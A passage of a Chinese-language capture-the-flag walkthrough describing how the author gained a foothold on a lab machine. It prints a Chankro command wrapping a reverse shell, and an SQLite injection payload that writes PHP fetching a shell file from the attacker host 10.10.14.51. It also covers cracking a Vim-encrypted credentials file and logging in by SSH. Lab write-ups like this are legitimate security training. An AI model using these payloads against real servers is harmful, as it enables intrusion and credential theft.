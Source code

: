编辑简单的 shell... 测试 shell 正常没问题

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOibVXNPvvBuaWJN5y4DFylmhZestesgsokjTicv79SaUt2FlsBM6qsemDQ90JUlYQDEY4BX5hOgs8g/640?wx_fmt=png)

```
python2 chankro.py --arch 64 --input rev.sh --output chan.php --path /var/www/html/dev/d9e28afcf0b274a5e0542abb67db0784
```

根据 chankro 提示，创建好了 chan.php 的 shell...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOibVXNPvvBuaWJN5y4DFylmyzB7C37rspQk472zOMB5VfdB2rWZ9KrAomEcVhplw2obrlLlibNoTeg/640?wx_fmt=png)

```
1;ATTACH DATABASE 'd9e28afcf0b274a5e0542abb67db0784/dayu1.php' AS lol;CREATE TABLE lol.pwn (dataz text);INSERT INTO lol.pwn (dataz) VALUES ('<?php file_put_contents("rce.php",file_get_contents("http://10.10.14.51:8000/chan.php"))?>');
```

通过创建 dayu1.php 激活执行上传 chan.php 文件，然后在内置了 rce.php 文件用于执行 shell...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOibVXNPvvBuaWJN5y4DFylmvUVBbHs2qTFAgY6d7RyOYHzLWVrJ1RZD60WPaPA45AQHc19dicsohNg/640?wx_fmt=png)

成功上传...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOibVXNPvvBuaWJN5y4DFylmic5QVpu9Fb1pntlVjMJFPBFrlwjPbSOW6xniaodn1k9rVZ6crNwW6etQ/640?wx_fmt=png)

```
http://127.0.0.1/dev/d9e28afcf0b274a5e0542abb67db0784/rce.php
```

获得了外壳 www 低权用户... 这样方便枚举了

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOibVXNPvvBuaWJN5y4DFylm33WnJsY96efl1fal7vB24icew8WzKf9mhpnnwV0qT842yrmTXKw1DcQ/640?wx_fmt=png)

可看到 user_flag 无法读取...

读取 creds.txt 时，这是 VimCrypt~02!...google 看看这是啥... 后面还有一些乱码

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOibVXNPvvBuaWJN5y4DFylmGPmN5bauFQVTyTqYZQYBIGcxeUVN8BTyFrLK6icOzOnUf7fDbqAuaSg/640?wx_fmt=png)

google 发现了一些文章，还有利用的 exp...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOibVXNPvvBuaWJN5y4DFylm5rYGSRxDNQsB3DrickISV8x9E0iaXVcQbictKaibAaVvft8J0Hw2Eh4M2A/640?wx_fmt=png)

这里解释到这是 VIM 的加密文本文件... 需要解密...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOibVXNPvvBuaWJN5y4DFylmqm9b4zXQwF81Zu8jgUraibx5J6rwI07KfFhic06eOVW0ZGQKiaBiaDhDUA/640?wx_fmt=png)

简单修改了下脚本... 破解了密码... 到这一步才获得 user... 的 flag.... 吐了太难了

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOibVXNPvvBuaWJN5y4DFylmO6EIsicU8tB6Dlx0IMquVRhSBwdYy45ibtPzPLU6f0YkGbm0zhPRCwEA/640?wx_fmt=png)

ssh 登录，获得了 user_flag 信息...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOibVXNPvvBuaWJN5y4DFylmePPRlMFluJFliavribsicmrDB1vlDSJ1AEMKicYHaVzlbLiaqbTU5ssL8kA/640?wx_fmt=png)
